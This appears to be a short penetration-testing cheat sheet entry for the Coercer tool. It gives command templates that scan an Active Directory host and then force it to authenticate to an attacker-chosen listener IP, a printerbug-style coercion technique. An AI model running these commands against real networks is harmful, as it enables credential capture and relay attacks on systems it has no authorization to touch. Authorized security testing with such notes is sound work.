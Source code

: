 
# Coercer

% printerbug, Active directory,https://github.com/p0dalirius/Coercer
#plateform/linux  #target/remote #cat/ATTACK/COERCE 

## scan
```
sudo coercer scan -u <user> -p '<password>' -d <domain_fqdn> -t <target-ip> 
```

## coerce
```
sudo coercer coerce -u <user> -p '<password>' -d <domain_fqdn> -l <listen_ip> -t <target-ip> -v --always-continue 
```